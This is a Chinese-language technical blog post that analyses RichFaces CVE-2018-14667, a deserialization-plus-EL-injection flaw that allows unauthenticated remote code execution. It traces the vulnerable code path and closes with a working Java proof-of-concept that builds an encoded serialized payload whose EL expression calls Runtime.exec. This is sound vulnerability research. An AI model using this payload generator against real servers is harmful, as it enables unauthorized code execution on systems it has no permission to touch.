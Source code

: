 ```yaml
---
layout: post
title: RichFaces CVE-2018-14667
tags: [Java, RichFaces]
comment: false
---
```


影响：3.x ~ 3.3.4(3.x 中最高的版本，官方在 2016 年已经停止维护该项目)

据漏洞的描述为可以通过 org.ajax4jsf.resource.UserResource$UriData 构造恶意的反序列化数据（里面插入 EL 来执行代码），从而攻击者可以在未认证的情况下实现远程代码执行的效果。

### RichFaces 中的反序列的点

从官网下载 richfaces-demo-3.3.4.Final.war 作为测试对象，

在 BaseFilter#doFilter 中检测是否为资源服务请求（这是个人理解，对 RichFaces 并不熟悉）处下一个断点开始跟踪调试
![](https://i.loli.net/2019/07/28/5d3d4eceb334225199.jpg)

往前跟到进入 WebXml#getFacesResourceKey
![](https://i.loli.net/2019/07/28/5d3d4ed50322933944.jpg)

这个方法传入的参数就是 url，然后通过 url 的开头和三种资源的前缀来对比区分请求的资源类型，这三种资源前缀分别为
![](https://i.loli.net/2019/07/28/5d3d4ebe17f5533493.jpg)

再加上版本号，接下来是截取了相应的前缀和后缀（.jsf）后将中间的值返回

继续往下跟进入 InternetResourceService#serviceResource 就是用前面获取到的返回值作为 resourceKey 去找相对应的 resource
![](https://i.loli.net/2019/07/28/5d3d4ec3f113b13924.jpg)

往下跟的时候发现前面传进来的 resourceKey 还会根据 DAT(A|B) 来截取一次作为 key

![](https://i.loli.net/2019/07/28/5d3d4ec46e4fc53300.jpg)

这里就有一开始看这个洞的时候比较疑惑的一点，org.ajax4jsf.resource.UserResource 没有注册，直接会抛出上图中的那个异常了。也没找到这个流程中能注册 resource 的点，还以为是得修改服务端的配置添加这个 resource 了，后来看了别人的文章才发现在 MediaOutputRenderer#doEncodeBegin 中有对 UserResource 的创建，它是在对 jsf 的 mediaOutput 标签解析中执行的。在 demo 中动态生成图片处查看它的 url 
![](https://i.loli.net/2019/07/28/5d3d4ec2547d830697.jpg)

因此在利用的过程中需要用到 demo 中这个已经注册的 UserResource 的 key，在这里是 org.ajax4jsf.resource.UserResource/n/s/-1487394660，如果这里的 key 是已经注册了的就可以继续往下跑了，到进入 ResourceBuilderImpl#getResourceDataForKey
![](https://i.loli.net/2019/07/28/5d3d4ed2122c245873.jpg)

这个方法的大体流程为截取 DAT(A|B) 后的数据进行解密，然后做反序列化，代码中其实可以看到只有是 DATA 的时候才会做反序列化，DATB 是直接作为对象数组处理了。这里处理输入流的类重写了 resolveClass 方法，做了白名单的检测，要用到的 org.ajax4jsf.resource.UserResource$UriData 就在白名单中，就不跟过去看了。

这个洞的利用并不是反序列化来触发的，触发点还在后面。

### 触发 EL 执行

接下来的执行流程还是在 InternetResourceService#serviceResource 中，将反序列化获取到的对象存入 resourceContext 中，往下直到进入
![](https://i.loli.net/2019/07/28/5d3d4ebd0fcdb84254.jpg)

这其中还是有条件判断是否能执行到这一步，不过默认的情况下没看到有影响。跟下去会发现调用到了 UserResource#send，最终在 invoke 处执行了 EL
![](https://i.loli.net/2019/07/28/5d3d4ed3b56cb28700.jpg)

上面这个只是 EL 执行的其中一处，看 InternetResourceBase#sendHeaders
![](https://i.loli.net/2019/07/28/5d3d4ee35572657589.jpg)

红圈的这两处其实就是调用的 UserResource#getLastModified 和 UserResource#getExpired，这三处都是可以执行 EL 的，执行流程中的顺序为 UserResource#getLastModified、UserResource#getExpired 和 UserResource#send。

### PoC

简单修改了一下随风师傅的 PoC，改成了在 UserResource#getLastModified 处触发执行

```java
package javax.faces.component;

import org.ajax4jsf.util.base64.Codec;
import util.Reflections;

import javax.el.ValueExpression;
import org.jboss.el.ValueExpressionImpl;
import javax.faces.FacesException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.zip.Deflater;

/**
 * Created by k1n9 on 2018/11/21 at 11:19.
 */
public class CVE201814667 {
    private static Codec codec = new Codec();

    protected static byte[] encrypt(byte[] src) {
        try {
            Deflater compressor = new Deflater(1);
            byte[] compressed = new byte[src.length + 100];
            compressor.setInput(src);
            compressor.finish();
            int totalOut = compressor.deflate(compressed);
            byte[] zipsrc = new byte[totalOut];
            System.arraycopy(compressed, 0, zipsrc, 0, totalOut);
            compressor.end();
            return codec.encode(zipsrc);
        } catch (Exception var6) {
            throw new FacesException("Error encode resource data", var6);
        }
    }

    public static void main(String[] args) throws Exception {
        String expr = "#{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"open /applications/calculator.app\")}";

        Class cls = Class.forName("org.ajax4jsf.resource.UserResource$UriData");
        Constructor ct = cls.getDeclaredConstructors()[0];
        ct.setAccessible(true);
        Object obj = ct.newInstance();

        ValueExpression ve = new ValueExpressionImpl(expr, null, null, null ,null);
        StateHolderSaver stateHolderSaver = new StateHolderSaver(null, ve);

        Reflections.setFieldValue(obj, "modified", stateHolderSaver);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(obj);

        byte[] output = encrypt(bos.toByteArray());
        System.out.println(new String(output, "ISO-8859-1"));
    }
}
```

### 参考

- [CVE-2018-14667（POC）](https://xz.aliyun.com/t/3264)
- [Red Hat JBoss EAP RichFaces - unserialize + el = RCE - 【CVE-2018-14667】](https://threathunter.org/topic/5be44bbbf2ad8dd42fb88dfd)

